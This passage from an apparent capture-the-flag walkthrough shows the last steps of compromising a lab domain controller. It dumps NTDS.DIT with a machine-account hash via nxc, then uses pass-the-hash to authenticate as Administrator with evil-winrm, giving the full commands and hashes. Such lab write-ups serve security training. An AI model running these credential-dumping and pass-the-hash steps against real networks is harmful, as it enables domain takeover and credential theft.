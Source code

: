 Now here the hash of the **Administrator** account is not correct, maybe it was an old password hash.

But the key thing here was we received the $**MACHINE.ACC** hash which can be used to dump the **NTDS.DIT**

```bash
nxc smb baby.vl -u 'BABYDC$' -H '3d538eabff6633b62dbaa5fb5ade3b4d' --ntds
```

![image.png](/assets/images/Baby_VL/image%2028.png)

**It says me to go grab a redbull 🤡**

And yeah now we have the correct hash of the administrator account, we can verify this using nxc only.

```bash
nxc ldap baby.vl -u 'Administrator' -H 'ee4457ae59f1e3fbd764e33d9cef123d'
```

![image.png](/assets/images/Baby_VL/image%2029.png)

Now we login through evil-winrm and claim our root.txt flag.

```bash
evil-winrm -i baby.vl -u 'Administrator' -H 'ee4457ae59f1e3fbd764e33d9cef123d'
```

![image.png](/assets/images/Baby_VL/image%2030.png)
